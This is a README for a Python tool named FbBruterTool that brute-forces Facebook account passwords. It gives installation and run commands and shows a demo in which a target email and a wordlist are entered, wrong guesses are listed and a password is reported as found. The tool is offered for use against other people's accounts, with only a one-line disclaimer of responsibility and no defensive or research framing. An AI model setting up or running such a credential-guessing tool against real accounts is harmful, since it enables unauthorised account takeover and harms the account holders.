 # FbBruterTool
Updated Facebook Python Brute Force Tool for Python 3

# Installation
```
pip3 install mechanize
```
```
git clone https://github.com/0sssama/FbBruterTool2/
```
```
cd FbBruterTool
```
```
python fb-bruter.py
```

# Demo
```
root@username:~ python fb-bruter.py
[?] Target Username/ID/Email >>> my.target@something.com

[?] Wordlist Directory >>> passwordFile.lst

BruteForcing my.target@something.com Now...

[!] Wrong Password! > qwertyuiop
[!] Wrong Password! > qwertyuiop123
[!] Wrong Password! > 123456789

#############################################

[+] Password Found! > password123

root@username:~ 
```
# NOTE
Using this tool is your own responsibility.
